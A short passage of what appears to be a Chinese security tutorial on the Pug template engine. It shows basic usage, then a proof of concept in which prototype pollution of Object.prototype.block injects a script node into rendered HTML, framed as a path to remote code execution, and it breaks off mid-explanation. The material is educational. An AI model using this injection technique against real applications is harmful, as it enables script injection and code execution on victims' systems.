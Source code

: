 `pug` 模版使用

```js
// 安装Pug模块：npm install pug

// 引入Pug模块
const pug = require('pug');

// 定义模板
const template = `
  h1 Hello, {name}!
`;

// 编译模板
const compiledTemplate = pug.compile(template);

// 渲染模板
const data = { name: 'John' };
const html = compiledTemplate(data);

console.log(html);

```


 模版引擎的工作原理

词法解析 -\> 语法解析 -\> 代码生成




但是在语法树处理的过程中，如果存在原型链污染，则可以随意修改AST树，进而影响生成的代码，最终达到RCE（远程代码执行）的目的












 pug template AST injection 
 
```js
const pug = require('pug');

Object.prototype.block = {"type":"Text","val":`<script>alert(origin)</script>`};

const source = `h1= msg`;

var fn = pug.compile(source, {});
var html = fn({msg: 'It works'});

console.log(html); // <h1>It works<script>alert(origin)</script></h1>
```

当执行到 `fn({msg: 'It works'}); ` 这一步的时候，本质上是进入了一段函数
